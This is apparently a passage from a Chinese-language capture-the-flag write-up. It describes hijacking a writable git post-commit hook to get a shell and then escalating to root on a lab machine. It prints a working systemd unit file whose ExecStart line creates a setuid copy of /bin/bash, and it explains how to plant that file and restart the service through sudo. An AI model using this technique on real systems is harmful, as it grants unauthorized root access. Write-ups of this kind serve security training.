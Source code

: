 进.git/一看，全有acl

![file](https://blog.apt250.zip/wp-content/uploads/2023/12/600a336a-0e20-1433-e395-3ce6314fb8f1.png)

既然hooks全都可写，那就是经典hook劫持

我们劫持git commit后会触发的post-commit

![file](https://blog.apt250.zip/wp-content/uploads/2023/12/c23843d6-7fdf-eff0-a530-b16c87b29869.png)

![file](https://blog.apt250.zip/wp-content/uploads/2023/12/ead91ad3-b431-0b1b-50b0-4470eacb65fc.png)

此外，我们还需要通过--work-tree参数设置到其他目录，然后提交其他文件，因为我们在image/下无权新增其他文件

![file](https://blog.apt250.zip/wp-content/uploads/2023/12/2bb2774a-12fa-f030-8288-32de7cd45e8f.png)

nc

![file](https://blog.apt250.zip/wp-content/uploads/2023/12/99aa60e8-73d3-1c2a-a997-73201d698c83.png)

## 本地权限提升

sudo -l

![file](https://blog.apt250.zip/wp-content/uploads/2023/12/cb556a6c-0277-29d6-0061-5a3bcc852900.png)

不出意外的话就要出意外了

从sudo -l这个条目不难看出进攻思路，当前用户svc肯定是对某个服务的配置文件可写，然后我们restart执行命令提权

在/etc/systemd下又发现system有acl，但是不可读

![file](https://blog.apt250.zip/wp-content/uploads/2024/01/1b92591c-68d9-cc06-7d2e-6fe18e3b557b.png)

然而other可读，我们需要www-data的shell帮助我们

system/里面也是全是acl，随便看一个文件的acl，发现svc可写

![file](https://blog.apt250.zip/wp-content/uploads/2024/01/076cc377-7344-1a62-e53c-8d8b90d2507c.png)

接下来就相当轻松也很熟悉了，随便搞个配置，抓住ExecStart

```bash
[Unit]
Description=My Service

[Service]
User=root
Group=root
ExecStart=/bin/bash -c "cp /bin/bash /tmp/bash;chmod +s /tmp/bash"

[Install]
WantedBy=default.target
```

保存到文件并且base64

![file](https://blog.apt250.zip/wp-content/uploads/2024/01/e17812f0-f2c5-0645-a1b9-c8259f73fdba.png)

将base64在目标上解码并写入system/，再sudo去restart，我们的老朋友将如期而至

![file](https://blog.apt250.zip/wp-content/uploads/2024/01/88b4a393-e546-982a-92eb-bf29e6ad66c6.png)

root flag还在老地方

